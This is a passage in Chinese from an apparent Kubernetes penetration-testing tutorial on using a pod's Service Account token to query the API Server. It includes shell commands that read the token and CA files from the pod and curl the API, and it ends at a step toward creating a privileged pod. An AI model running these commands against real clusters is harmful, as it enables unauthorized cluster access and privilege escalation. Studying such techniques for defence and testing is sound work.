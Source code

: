 [![](assets/1711471711-8f2a5f849f0f05e39f7a82d73b84f7d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20211230191549-d7d67c4e-6961-1.png)

## 执行

-   利用Service Account
-   CURL方式请求
-   kubectl方式请求

### 利用Service Account

K8s集群创建的Pod中，容器内部默认携带K8s Service Account的认证凭据，路径为：(/run/secrets/kubernetes.io/serviceaccount/token)  
如运维配置不当没有设置RBAC（基于角色的访问控制）,那么攻击者就可以通过Pod获取到Token进行API Server认证。  
在较低版本v1.15.11中,Kubernetes默认是不会开启RBAC控制，从1.16版本起，默认启用RBAC访问控制策略。从1.18开始，RBAC已作为稳定的功能。

下面就是利用Pod中的Token访问API Server的一种场景：

```plain
#指向内部 API 服务器主机名
export APISERVER=https://${KUBERNETES_SERVICE_HOST}

#设置 ServiceAccount 令牌的路径
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount

#读取 pods 命名空间并将其设置为变量。
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)

#读取 ServiceAccount 不记名令牌
export TOKEN=$(cat ${SERVICEACCOUNT}/token)

# CACERT 路径
export CACERT=${SERVICEACCOUNT}/ca.crt

执行以下命令查看当前集群中所有 Namespaces。
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces

#写入 yaml，创建特权 Pod
```